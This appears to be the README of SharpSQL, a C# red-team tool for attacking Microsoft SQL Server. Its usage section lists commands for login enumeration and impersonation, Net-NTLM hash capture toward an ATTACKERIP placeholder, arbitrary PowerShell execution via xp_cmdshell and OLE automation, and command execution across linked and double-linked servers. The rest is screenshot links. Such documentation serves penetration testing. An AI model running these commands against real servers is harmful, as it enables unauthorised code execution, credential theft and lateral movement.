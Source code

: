 # SharpSQL

----

SharpSQL is a C# tool for Microsoft SQL interaction and abuses. 

### Command Line Usage

    ███████ ██   ██  █████  ██████  ██████  ███████  ██████  ██
    ██      ██   ██ ██   ██ ██   ██ ██   ██ ██      ██    ██ ██
    ███████ ███████ ███████ ██████  ██████  ███████ ██    ██ ██
         ██ ██   ██ ██   ██ ██   ██ ██           ██ ██ ▄▄ ██ ██
    ███████ ██   ██ ██   ██ ██   ██ ██      ███████  ██████  ███████
                                                        ▀▀
    Written By: Jb05s | Version: 1.3.0 (07/13/2023)

    MSSQL Authenticated Server Enumeration and Impersonation:

        [1] Retrieve Login Information on the Connected SQL Server:
                SharpSQL.exe getlogin /db:DATABASE /server:SERVER [/impersonate] [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [2] Retrieve Information on SQL Login, Mapped User, and Available User Roles:
                SharpSQL.exe getdbuser /db:DATABASE /server:SERVER [/impersonate] [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Retrieve the Net-NTLM Hash for the Service Account of the Connected SQL Server:
                SharpSQL.exe gethash /db:DATABASE /server:SERVER /ip:ATTACKERIP [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [4] Retrieve a List of Linked SQL Servers on the Connected SQL Server:
                SharpSQL.exe getlinked /db:DATABASE /server:SERVER [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

    MSSQL Command Execution:
    
        [1] Base64 Encode an Arbitrary String for the '/command' Switch:
                SharpSQL.exe encode /command:STRING
        [2] Execute Arbitrary Encoded PowerShell Command via 'xp_cmdshell':
                SharpSQL.exe xp /db:DATABASE /server:SERVER /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Execute Arbitrary Encoded PowerShell Command via 'Ole Automation Procedures':
                SharpSQL.exe ole /db:DATABASE /server:SERVER /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

    MSSQL Linked Server Command Execution:

        [1] Action: Execute Procedures to Get Login Information on Linked SQL Server:
                SharpSQL.exe linkedlogin /db:DATABASE /server:SERVER /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [2] Action: Execute Encoded PowerShell 'whoami' Command on Linked SQL Server via 'xp_cmdshell':
                SharpSQL.exe linkedxplogin /db:DATABASE /server:SERVER /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Retrieve the Net-NTLM Hash for the Service Account of the Linked SQL Server:
                SharpSQL.exe linkedhash /db:DATABASE /server:SERVER /target:TARGET /ip:ATTACKERIP [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [4] Execute Encoded PowerShell Command on Linked SQL Server via 'xp_cmdshell' with 'OPENQUERY':
                SharpSQL.exe linkedquery /db:DATABASE /server:SERVER /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [5] Execute Encoded PowerShell Command on Linked SQL Server via 'xp_cmdshell':
                SharpSQL.exe linkedxp /db:DATABASE /server:SERVER /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [6] Configure Linked SQL Server to Allow RPC connections:
                SharpSQL.exe linkedrpc /db:DATABASE /server:SERVER /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

    MSSQL Double Linked Server Command Execution:

        [1] Action: Execute Procedures to Get Login Information on Double-Linked SQL Server:
                SharpSQL.exe dbllinkedlogin /db:DATABASE /server:SERVER /intermediate:INTERMEDIATE /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [2] Action: Execute Encoded PowerShell 'whoami' Command on Double-Linked SQL Server via 'xp_cmdshell':
                SharpSQL.exe dbllinkedxplogin /db:DATABASE /server:SERVER /intermediate:INTERMEDIATE /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Execute Encoded PowerShell Command on a Double Linked SQL Server via 'xp_cmdshell':
                SharpSQL.exe dbllinkedxp /db:DATABASE /server:SERVER /intermediate:INTERMEDIATE /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

### getlogin
![](../images/getlogin-winauthc.png)
![](../images/getlogin-sqlauthc.png)

### getdbuser
![](../images/getdbuser-winauthc.png)
![](../images/getdbuser-sqlauthc.png)

### gethash
![](../images/gethash.png)

### getlinked
![](../images/getlinked.png)

### encode
![](../images/encode.png)

### xp
![](../images/xp.png)

### linkedlogin
![](../images/linkedlogin.png)

### linkedxplogin
![](../images/linkedxplogin.png)

### linkedhash
![](../images/linkedhash.png)

### linkedxp
![](../images/linkedxp.png)

### linkedrpc
![](../images/disabled-linkedrpc.png)
![](../images/enabled-linkedrpc.png)

### dbllinkedlogin
![](../images/dbllinkedlogin.png)

### dbllinkedxplogin
![](../images/dbllinkedxplogin.png)

### dbllinkedxp
![](../images/dbllinkedxp.png)
